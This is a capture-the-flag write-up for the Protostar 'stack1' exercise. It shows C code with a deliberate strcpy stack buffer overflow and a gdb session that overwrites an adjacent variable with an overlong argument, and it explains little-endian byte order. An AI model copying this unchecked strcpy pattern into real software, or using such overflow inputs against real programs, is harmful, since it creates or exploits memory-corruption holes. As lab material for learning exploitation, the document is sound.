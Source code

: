 This level is at `/opt/protostar/bin/stack1`

Hints

+ If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
+ Protostar is little endian


### Challenge source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
### Challenge solution

This is exactly like the first challenge, the only difference is `modified` needs a specific value `0x61626364`.

Using the ascii table , `0x61` is the character `a`, `0x62` is `b`, then `c`, and finally `d`,

> Note : man ascii to check the ascii table.

Let's explore this in gdb

```bash
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAabcd
Try again, you got 0x64636261
(gdb) x/x $esp+0x5c
0xbffff74c:     0x64636261
```

Why isn't working ?

Notice that the bytes are in the reverse order, since protostar follows little endian byte order.
